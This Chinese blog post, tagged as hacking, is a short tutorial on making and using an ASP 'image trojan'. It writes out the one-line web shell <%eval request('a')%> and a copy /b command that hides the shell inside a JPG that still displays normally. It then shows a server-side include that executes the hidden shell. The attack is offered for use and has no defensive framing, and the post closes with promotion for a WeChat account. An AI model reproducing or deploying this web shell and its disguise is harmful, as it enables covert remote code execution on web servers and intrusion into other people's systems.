 ```yaml
---
layout: post
category: curleyg-code-hack
title: asp图片木马的制作和使用
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: asp图片木马的制作和使用
lock: need
---
```


# asp图片木马的制作和使用

先看代码：

仅需几步：图片和一句话木马合并，制作可以正常显示的图片木马。

1、找一张图片，名字改成1.jpg
2、<%eval request(“a”)%>存为1.asp（就是一句话木马）
3、copy 1.jpg /b + 1.asp /a asp.jpg 存为1.bat文件

注：以上三个文件放在同一目录里面

复制当前目录下的1.jpg图片和当前目录下的1.asp文件并以ASCII代码的方式合并为 asp.jpg图片，运行1.bat，就会出现一个图片asp.jpg，现在这个asp.jpg就是已经做好的木马了。

这个图片外表很正常，用缩略图也看不出任何破绽，但是却非常的危险，让人防不胜防。

利用方法：新建一个asp.asp 内容为：

```html
<!–#include file=”asp.jpg”–>
```

把asp.jpg 和 asp.asp 放在同一目录，然后访问： asp.asp 。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

